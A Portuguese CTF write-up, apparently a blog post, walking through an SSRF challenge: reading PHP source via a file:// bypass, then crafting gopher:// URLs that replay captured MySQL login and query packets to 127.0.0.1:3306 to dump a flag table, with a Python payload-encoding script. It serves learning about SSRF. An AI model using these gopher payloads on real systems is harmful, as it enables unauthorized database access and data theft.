Está challenge aconteceu este final de semana e eu gostei muito da resolução dela, e também gostei que eu fui o primeiro a matar ela :)


Bem, entrando na challenge não tinhamos muita coisa para fazer, haviamos um input e um botão, basicamente indicando que tinhamos um curl sendo executado, a primeira coisa que tentei, foi tentar enviar algo para o google.com e ver se retornava algum valor:


Bem, parece que só podemos enviar coisas para o localhost, então, indo um pouco a fundo, podemos achar um pequeno bypass para isso, já que a aplicação não está barrando wrappers, temos a possibilidade de utilizar o file:// aqui:
php > var_dump(parse_url('file://localhost/../var/www/html/index.php"'));
array(3) {
["scheme"]=>
string(4) "file"
["host"]=>
string(9) "localhost"
["path"]=>
string(27) "/../var/www/html/index.php""
}

Ok, conseguimos o código da index, vamos dar uma olhada nele:
include_once "config.php";
if (isset($_POST['url'])&&!empty($_POST['url']))
{
$url = $_POST['url'];
$content_url = getUrlContent($url);
}
else
{
$content_url = "";
}
if(isset($_GET['debug']))
{
show_source(__FILE__);
}
?>
que pena, eu não sabia que existia o debug aqui, mas ok, aqui não tem muito o que analisar, pois a função getUrlContent() está vindo muito provavelmente do config.php:

Aqui sim, temos o que analisar:
<?php
$hosts = "localhost";
$dbusername = "ssrf_user";
$dbpasswd = "";
$dbname = "ssrf";
$dbport = 3306;
$conn = mysqli_connect($hosts,$dbusername,$dbpasswd,$dbname,$dbport);
function initdb($conn)
{
$dbinit = "create table if not exists flag(secret varchar(100));";
if(mysqli_query($conn,$dbinit)) return 1;
else return 0;
}
function safe($url)
{
$tmpurl = parse_url($url, PHP_URL_HOST);
if($tmpurl != "localhost" and $tmpurl != "127.0.0.1")
{
var_dump($tmpurl);
die("<h1>Only access to localhost</h1>");
}
return $url;
}
function getUrlContent($url){
$url = safe($url);
$url = escapeshellarg($url);
$pl = "curl ".$url;
echo $pl;
$content = shell_exec($pl);
return $content;
}
initdb($conn);
?>
É sempre interessante quando temos usuarios,senhas e etc presentes no código, vamos guardar, pois pode nos ser util futuramente.
Analisando p initdb() você consegue ver que a função está criando um tabela chamada flag com uma coluna secret no banco de dados, caso ela ainda não exista...
A função safe() está pegando a url passada e verificando via parse_url() se o host bate com localhost ou 127.0.0.1, nenhuma verificação pesada aqui...
Bem, aqui no getUrlContent() eu confesso que cheguei a pensar que havia uma forma talvez nova de bypassar o escapeshellarg e conseguir injetar comandos, porém, não faria sentido algum isso, mas eu pensei nessa possibilidade…
Olhando para a função conseguimos ver que ela está usando o escapeshellarg para criar um escape nos argumentos do comando, logo abaixo é executado um shell_exec e retornado para o usuário.
Ok, pensando nas possibilidades, ficou muito claro que eu deveria persistir no ssrf, e talvez encontrar algum protocolo disponivel do qual eu conseguisse me aproveitar para conseguir uma shell talvez, então tentei ftp://,ssh://,dict:// e então gopher://…
Eu já havia estudado diversas vezes em formas de conseguir shell com o gopher, usando redis ou fastcgi em conjunto, mas nunca havia feito com mysql, encontrei alguns artigos que me indicaram que uma parte do formato do pacote do mysql, quando enviado na pilha tcp, seria o formato que o mysql entenderia caso pudessemos envia-lo por uma url, bem, é muito abstrato falar assim, vamos ver como isso funciona na prática, porém, antes, vamos criar um usuário igual ao do desafio “ssrf_user” em nosso mysql…
mysql> CREATE USER 'ssrf_user'@'localhost';
Query OK, 0 rows affected (0,07 sec)
mysql> GRANT USAGE ON *.* TO 'ssrf_user'@'localhost';
Query OK, 0 rows affected (0,01 sec)
mysql> GRANT ALL PRIVILEGES *.* TO 'ssrf_user'@'localhost';
Query OK, 0 rows affected (0,10 sec)
Ok, agora podemos prosseguir melhor. Vamos abrir o wireshark para ver como o protocolo vai se comportar quando enviarmos um pacote de conexao e login para o mysql:

Eu cheguei a fazer o login pelo mac, porém, o que eu percebi foi que o mey mysql do mac estava gerando de uma forma totalmente diferente da original o pacote de conexão, ele estava grande demais para apenas um login, então, abri um ubuntu com mysql e um wireshark para testar isso, mas basicamente o que precisamos selecionar é o ultimo segmento apresentado do pacote pelo wireshark, que é só a parte do pacote que a gente faz a tentativa de login:
A gente basicamente pode dividir essa comunicação do pacote do mysql e duas partes, a parte da conexão e a parte da execução dos comandos, aqui estamos apenas na parte da conexão, mas o que acontece para o formato dos dados ficar assim é que a primeira iteração antes do login, é do servidor, que envia um salt e o cliente do mysql criptografa a senha, neste simples caso, isto não ocorre.

A partir daqui, precisamos fazer isso virar uma url, e a forma mais facil de fazer isso, é usar o input do “Show and save data as” e setar ele para “Raw”:

Ok, agora, precisamos encodar isso tudo em um formato adequado para a url, na verdade não é muito dificil, bastaria adicionar % a cada dois bytes, mas eu encontrei um script que faz isso para nós:
def result(s):
a = [s[i:i+2] for i in xrange(0, len(s), 2)]
return "curl gopher://127.0.0.1:3306/_%" + "%".join(a)
if __name__ == "__main__":
import sys
s = sys.argv[1]
print result(s)

Vamos tentar enviar isso na aplicação e ver o que vai nos retornar:

Parece que funcionou, bem, mas como já haviamos visto antes, é criado um banco de dados com uma tabela flag com uma coluna secret, então, vamos dumpar ela com o gopher…
Vamos mudar o nosso comando de login agora, para mysql -h 127.0.0.1 -u ssrf_user -e “use ssrf; select secret from flag"

Olhando neste novo pacote, a gente consegue até ver a query que será executada…
depois de refazer o processo inteiro em cima deste novo pacote, conseguimos enfim a flag!

